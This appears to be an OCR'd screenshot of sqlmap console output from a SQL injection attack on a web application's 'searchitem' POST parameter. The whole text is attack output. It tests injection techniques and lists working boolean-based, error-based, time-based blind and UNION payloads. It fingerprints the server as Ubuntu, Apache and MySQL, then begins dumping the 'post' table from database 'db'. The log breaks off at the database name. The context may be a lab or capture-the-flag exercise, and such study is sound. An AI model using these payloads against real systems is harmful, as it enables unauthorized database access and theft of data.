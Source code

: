 [21:13:17] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[21:13:17] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[21:13:17] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[21:13:17] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[21:13:17] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[21:13:17] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[21:13:17] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[21:13:17] [INFO] testing 'MySQL inline queries'
[21:13:17] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[21:13:17] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[21:13:17] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[21:13:17] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[21:13:17] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[21:13:17] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[21:13:17] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[21:13:17] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind'
[21:14:07] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
[21:14:07] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[21:14:08] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[21:14:08] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[21:14:08] [INFO] target URL appears to be UNION injectable with 3 columns
[21:14:08] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[21:14:08] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval

sqlmap identified the following injection point(s) with a total of 121 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-5310' OR 4832=4832#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: searchitem=testing' OR (SELECT 7546 FROM(SELECT COUNT(*),CONCAT(0x7176717071,(SELECT (ELT(7546=7546,1))),0x7171717071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- EwRK

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: searchitem=testing' OR SLEEP(5)-- JQQD

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=testing' UNION ALL SELECT NULL,CONCAT(0x7176717071,0x726442564642635a794a42514263516f7a427961696867627249686a4f444e4162446877676b7275,0x7171717071),NULL#
---
[21:15:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[21:15:44] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[21:15:44] [INFO] fetching current database
[21:15:44] [INFO] fetching tables for database: 'db'
[21:15:44] [INFO] fetching columns for table 'post' in database 'db'
[21:15:44] [INFO] fetching entries for table 'post' in database 'db'
Database: db